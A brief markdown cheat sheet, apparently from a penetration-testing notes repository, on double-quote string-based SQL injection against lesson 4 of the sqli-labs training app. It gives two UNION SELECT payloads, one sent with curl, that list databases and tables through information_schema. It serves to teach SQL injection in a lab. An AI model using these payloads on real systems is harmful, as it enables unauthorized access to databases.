 # SQL Injection - DBL Quotes String Based
Below is syntax that can be tested for SQL Injection of a integer that is wrapped in double quotes and parenthesis.
## Listsing Databases
```
curl http://(TARGET IP ADDRESS)/sqli-labs/Less-4/?id=3")\
 union select 1,2,\
  group_concat(distinct table_schema separator ',') \
   from information_schema.tables LIMIT 1,1 -- -
```
This will list all of the databases available.
## Listing Tables
Below is syntax that can be used to list the tables of a given database name,
```
http://(TARGET IP ADDRESS)/sqli-labs/Less-4/?id=3")\
 union select 1,2,\
  group_concat(distinct table_name separator ',')\
   from information_schema.tables where table_schema = 'security' LIMIT 1,1 -- -
```
